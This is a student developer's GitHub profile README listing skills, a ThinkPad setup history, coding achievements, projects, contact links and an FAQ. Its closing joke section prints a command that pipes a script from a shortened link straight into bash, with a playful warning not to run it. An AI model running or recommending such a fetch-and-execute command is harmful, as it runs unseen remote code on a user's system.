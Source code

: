 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
> ## Dream big, make it happen.
> <small>- Gekko (VALORANT)</small>

<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>
Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->

-   🤗 I'm an junior developer, Software and Hardware Engineer!
-   🏫 I am a student of SMAN 1 Malang currently on grade 10
-   💻 I'm the lead engineer and lead schematic and PCB designer of Radianite!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _how to properly make backends_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML, Python, Rust, Arduino.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord <i>(I'm always active here)</i></a>

### About Me

I am working on my **Projects**, **development software**, **productivity software** and **computer boards!**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js**, **Desktop Development Electron.js**, **Video Editing Creating with MLT**, **PCB Engineering with KiCad** and **STEM engineering and research with Arduino**.

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills** and **engineering skills**.

### My Setup (as of October 2024)
- Lenovo ThinkPad T480, with the following specs
  
  - CPU: Intel Core i5-8350U vPro
  - RAM: 8GB DDR4 (planning to upgrade to 16GB soon)
  - SSD: Intel 256GB NVME drive (M.2)
  - GPU: Intel UHD 620
  - Mouse: Logitech G102 @ 1600-3500 DPI
  - OS: Windows 10 Pro 22H2
#### Setup History so far (2015-now)
<small><i>Might not be neccessary to just flex my setup, and a quirky idea.</i></small>
- 2015: Lenovo ThinkPad W520 (I believe, first self owned ThinkPad)
- 2018: Lenovo ThinkPad T510 (sluggish af, torn down)
- 2023: Lenovo ThinkPad T430 (bricked as of Oct 2024)
- 2024: Lenovo ThinkPad T480 (current, in use)
### My Achievements:
- Won the 2023 HKICO Heat Round Secondary 1 (Python): Zean Fender Isnomo.
- Nominated as Stage 3 participant (pre-final) on OPSI 2023

![image](https://github.com/zeankundev/zeankundev/assets/58360911/4aff522b-ab03-4874-b275-abfd9e252bf8)


<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->


<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=zeankundev&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>
<br><br><br><br><br><br><br><br><br><br>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->
<br><br>
## Some Of My Projects
<p align="center">
<a href="https://github.com/zeankundev/Graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=Graycrown" />
</a>
<a href="https://github.com/NextSystemsInc/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=NextSystemsInc&repo=NextPay"/>
</a>
</p>

<br>
<br>
<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>






<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/SerialDesignatorN) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDevRil) [pls click me](https://bit.ly/3kmEhmP) 

 
 <h2>Donate me on Trakteer!</h2>
<a href="https://trakteer.id/zeankundev" target="_blank"><img id="wse-buttons-preview" src="https://cdn.trakteer.id/images/embed/trbtn-red-1.png" style="border:0px;height:40px;" alt="Trakteer Saya" height="40"></a>
</div>

# FAQ about me
- **What games do you play mostly?**
> MLBB
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Mashle! I usually watch it on Netflix.
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt
- **Any more questions to ask with me? Contact me on _zeankun.dev_ on Discord**

# Typically (un)neccesarry stuffs
- My VALORANT crosshair (suitable for players that suffer ADHD or level 4 autism, like me)

```
0;P;c;1;t;2;o;1;0v;7;0o;0;0a;1;1b;0
```

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
